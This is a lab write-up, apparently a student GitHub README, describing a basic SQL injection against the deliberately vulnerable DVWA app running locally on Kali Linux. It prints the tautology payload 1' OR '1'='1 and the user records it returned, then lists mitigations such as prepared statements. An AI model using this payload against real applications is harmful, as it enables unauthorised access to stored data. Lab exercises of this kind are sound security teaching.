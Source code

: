 # SQL Injection Exploitation - DVWA

## Objective
The goal of this task was to set up a vulnerable web application (DVWA) and perform an SQL Injection (SQLi) attack to exploit it. This helps understand how SQLi works and how to mitigate it.

---

## Tools Used
- **Kali Linux**
- **DVWA (Damn Vulnerable Web Application)**
- **Firefox Browser (for accessing DVWA locally)**

---

## Setup Steps

1. **Installed DVWA**  
   Command used:
   ```bash
   sudo apt install dvwa
   ```

2. **Started DVWA**
   ```bash
   dvwa-start
   ```

3. **Accessed in browser**  
   Opened:
   ```
   http://127.0.0.1:42001
   ```

4. **Navigated to**
   
   `SQL Injection` module from the left panel.

---

## SQL Injection Performed

- **Tested User ID with SQL Injection:**
  ```
  1' OR '1'='1
  
  &
  
  1
  ```

- **Result:**  
  Successfully bypassed the user ID filter and retrieved multiple users from the database including:
  ```
  For 1' OR '1'='1
  ID: 1' OR '1'='1
  First name: admin
  Surname: admin
  First name: Gordon
  Surname: Brown
  First name: Pablo
  Surname: Picasso
  First name: Bob
  Surname: Smith
  
  &
  
  For 1
  ID: 1
  First name: admin
  Surname: admin
  ```

---

## How It Works

The payload:
```
1' OR '1'='1
```
Breaks the SQL query logic and forces the database to always return true, retrieving all records.
```
1
```
Shows only user with ID 1

---

## How to Patch This Vulnerability

To fix SQL Injection in real applications:
- Use **prepared statements** (parameterized queries)
- Validate and sanitize all user inputs
- Limit database permissions
- Implement **Web Application Firewalls (WAF)**
- Regularly test for vulnerabilities using scanners

---

## Deliverables

- **Screenshots Provided** showing:
  - DVWA installation
  - DVWA SQL Injection module usage
  - Successful SQLi execution

- **Note:** No `.sh` script was created since the process was entirely manual via web browser.

---

## Conclusion

This exercise helped in understanding how a basic SQL injection attack works and the importance of input validation and prepared statements to secure web applications.


